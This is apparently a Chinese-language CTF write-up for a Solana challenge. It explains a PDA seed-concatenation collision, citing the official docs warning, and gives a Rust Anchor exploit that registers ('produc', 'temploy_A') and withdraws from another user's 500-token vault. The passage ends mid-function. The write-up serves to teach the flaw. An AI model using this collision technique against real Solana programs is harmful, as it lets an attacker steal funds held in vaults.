 ### 做法
这题的答题交互也给了，是 rust 代码，写好了直接改下 tcp 地址然后 cargo run 就可以打了。

主要的解法还是在 solve/programs/solve/src/lib.rs 中编写。

题给了一个初始化指令和其结构体的定义，在里面补充就可以。原有的是一个调用 Register 的代码，register 了 ("product", "employ_B") 这个 record。

找了很长时间没看出漏洞在哪。但 solana 的官方文档中[关于 PDA seed 的描述](https://docs.solana.com/developing/programming-model/calling-between-programs#hash-based-generated-program-addresses)里面有一个 warning：

> **Warning:** Because of the way the seeds are hashed there is a potential for program address collisions for the same program id. The seeds are hashed sequentially which means that seeds {"abcdef"}, {"abc", "def"}, and {"ab", "cd", "ef"} will all result in the same program address given the same program id. Since the chance of collision is local to a given program id, the developer of that program must take care to choose seeds that do not collide with each other. For seed schemes that are susceptible to this type of hash collision, a common remedy is to insert separators between seeds, e.g. transforming {"abc", "def"} into {"abc", "-", "def"}.

大体意思就是，如果 seed 有多个的话，计算的时候是直接拼接起来的，["abcdef"] 和 ["abc", "def"]、["ab", "cdef"] 算出来的 PDA 是一样的。

而题目中获取 vault 用的 seed 是 [org_name, employee_id]，这里就存在了拼接。既然我们不能使用同样的 (org_name, employee_id) 来注册、获取到其记录有 500 token 的 vault，但我们可以用另一对 (org_name, employee_id) 来完成注册、并在 withdraw 获取 vault 的时候使其拼接起来和题目中的一样来获取到那个 500 token 的 vault。

所以我们注册一个 ("produc", "temploy_A") 然后直接 withdraw 就可以了：

???+ success "exp 合约 initialize 指令"
    ```rust
    pub fn initialize(ctx: Context<Initialize>) -> Result<()> {

        let o1 = String::from("produc");
        let e1 = String::from("temploy_A");

        let cpi_accounts = chall::cpi::accounts::Register {
            catalog: ctx.accounts.catalog.to_account_info(),
            employee_record: ctx.accounts.user_record.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(ctx.accounts.chall.to_account_info(), cpi_accounts);
        chall::cpi::register(cpi_ctx, o1, e1)?;

        let o1 = String::from("produc");
        let e1 = String::from("temploy_A");

        let cpi_accounts = chall::cpi::accounts::Withdraw {
            vault: ctx.accounts.vault.to_account_info(),
            employee_record: ctx.accounts.user_record.to_account_info(),
            reserve: ctx.accounts.reserve.to_account_info(),
            user_account: ctx.accounts.user_token_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            payer: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(ctx.accounts.chall.to_account_info(), cpi_accounts);
        chall::cpi::withdraw(cpi_ctx, o1, e1, 1)?;
